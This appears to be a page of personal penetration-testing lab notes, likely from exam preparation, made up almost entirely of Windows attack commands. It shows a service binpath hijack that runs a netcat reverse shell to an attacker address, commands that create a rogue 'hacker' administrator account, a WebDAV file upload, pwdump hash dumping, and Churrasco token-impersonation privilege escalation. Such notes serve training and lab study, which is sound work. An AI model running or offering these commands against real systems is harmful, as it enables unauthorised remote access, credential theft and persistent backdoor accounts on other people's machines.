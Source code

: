 sc start SSDPSRV

sc config upnphost depend= ""

sc config upnphost binpath= "C:\Inetpub\wwwroot\nc.exe -nv *ipaddress* 9988 -e C:\WINDOWS\System32\cmd.exe"

sc config upnphost binpath= "net user hacker P@ssw0rd123! /add"

sc config upnphost binpath= "net localgroup Administrators pwnage /add"

sc config upnphost obj= ".\LocalSystem" password= ""

sc config upnphost binpath= "C:\Inetpub\wwwroot\nc.exe -nv *ipaddress* 9988 -e C:\WINDOWS\System32\cmd.exe"

nc -lvp 9988

net start upnphost

#### start and stop services with sc

These Windows services are started:

net start *service*

net stop *service*


#### Accesschk upload example with davtest and netcat

```
./davtest.pl -URL http://*ipaddress*/Scripts -uploadfile /root/pwk_recon/mal_files/priv_esc/accesschk/accesschk.exe -uploadloc accesschk.exe.txt


nc 10.11.1.13 80 -vv
COPY /Scripts/accesschk.exe.txt HTTP/1.1
HOST: 10.11.1.13
Destination: http://*ipaddess*/scripts/accesschk.exe
Overwrite: T

```

#### pwdump.exe

pwdump.exe localhost

#### Churrasco.exe

Churrasco.exe "net user hacker Passw0rd123! /add

c:\Inetpub>Churrasco.exe "net user hacker Passw0rd123! /add"

Churrasco.exe "net user hacker Passw0rd123! /add"

The command completed successfully.

c:\Inetpub>Churrasco.exe "net localgroup administrators /add hacker"

Churrasco.exe "net localgroup administrators /add hacker"

